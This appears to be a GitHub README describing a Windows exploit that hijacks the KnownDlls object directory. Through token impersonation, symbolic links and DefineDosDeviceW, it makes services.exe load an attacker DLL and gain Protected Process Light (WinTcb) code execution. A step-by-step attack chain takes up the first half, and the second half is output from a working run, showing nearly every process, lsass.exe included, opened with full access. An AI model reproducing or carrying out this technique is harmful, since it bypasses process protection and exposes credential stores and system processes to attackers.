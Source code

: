 # KnownDlls

01. we try got tokens (primary and impersonation) with write access for \GLOBAL?? and with required privileges
02. impersonate
03. create symbolic link "\GLOBAL??\EventAggregation.dll" => "\BaseNamedObjects\MySection"
![Screenshot](0.png)
04. revert to self
05. create 2 links: "\??\KnownDlls" => "\GLOBAL??" and "\??\GLOBALROOT" => "\??"
![Screenshot](1.png)
06. DefineDosDeviceW ("GLOBALROOT\KnownDlls\EventAggregation.dll", "\BaseNamedObjects\MySection");
![Screenshot](Untitled.png)
![Screenshot](3.png)
07. create file "\systemroot\temp\PPL.dll"
08. create image section "\BaseNamedObjects\MySection" from "\systemroot\temp\PPL.dll"
![Screenshot](2.png)
09. start "services.exe" with current thread id in command line
10. alertable wait for services.exe exit
11. if PPL.dll loaded to services.exe (as EventAggregation.dll ) it send alert to our thread
12. if and only if wait finished with STATUS_ALERTED this mean all is ok and PPL.dll take control
13. delete "\KnownDlls\EventAggregation.dll" link
14. show info and exit
15. PPL.dll redirect exe entry point to self
16. PPL.dll enumerate all processes in system and try open each with PROCESS_ALL_ACCESS
17. only processes with higher level than 1.6 ( Light.WinTcb ) is fail to open - System, Registry and Memory Compression (all 3 is 2.7 - Protected.WinSystem )

c0000022 00000004 System [2.7]
c0000022 0000007c Registry [2.7]
00000000 000001a0 smss.exe [1.6]  >>  \SystemRoot\System32\smss.exe
00000000 00000228 csrss.exe [1.6]  >>  %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll
00000000 0000027c wininit.exe [1.6]  >>  wininit.exe
00000000 00000284 csrss.exe [1.6]  >>  %SystemRoot%\system32\csrss.exe ObjectDirectory=\Windows SharedSection=1024,20480,768 Windows=On SubSystemType=Windows ServerDll
00000000 000002c8 services.exe [1.6]  >>  C:\WINDOWS\system32\services.exe
00000000 000002e4 winlogon.exe  >>  winlogon.exe
00000000 0000031c lsass.exe  >>  C:\WINDOWS\system32\lsass.exe
00000000 00000398 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p
00000000 000003b4 fontdrvhost.exe  >>  "fontdrvhost.exe"
00000000 000003b8 fontdrvhost.exe  >>  "fontdrvhost.exe"
00000000 000001e0 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k RPCSS -p
00000000 000001fc svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k DcomLaunch -p -s LSM
00000000 000001bc dwm.exe  >>  "dwm.exe"
00000000 00000450 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s DsmSvc
00000000 0000045c svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k NetworkService -s TermService
00000000 000004f8 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p -s EventLog
00000000 00000504 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s ProfSvc
00000000 00000510 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s NcbService
00000000 0000050c svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Schedule
00000000 00000524 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s TimeBrokerSvc
00000000 000005b4 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNoNetwork -p
00000000 000005d0 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -s CertPropSvc
00000000 000005fc svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s UserManager
00000000 00000614 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s hidserv
00000000 00000638 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s nsi
00000000 00000668 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceAndNoImpersonation -s SCardSvr
00000000 00000678 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -s SCPolicySvc
00000000 000006e4 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s Dhcp
00000000 00000768 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s UmRdpService
00000000 000007c4 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k NetworkService -p -s NlaSvc
00000000 00000590 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s NgcCtnrSvc
00000000 00000898 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalService -p -s netprofm
00000000 00000948 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k NetworkService -p -s Dnscache
00000000 00000968 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s Winmgmt
00000000 000009d8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s EventSystem
00000000 00000aa0 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s BITS
00000000 00000ae8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s SysMain
00000000 00000af0 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k netsvcs -p -s Themes
00000000 00000af8 svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k netsvcs -p -s SENS
00000000 00000b34 svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s AudioEndpointBuilder
00000000 00000b3c svchost.exe  >>  C:\WINDOWS\system32\svchost.exe -k LocalService -p -s FontCache
c0000022 00000b60 Memory Compression [2.7]
00000000 00000bdc svchost.exe  >>  C:\WINDOWS\System32\svchost.exe -k LocalServiceNetworkRestricted -p
....
00000000 00000e48 services.exe [1.6]  >>  2340


 
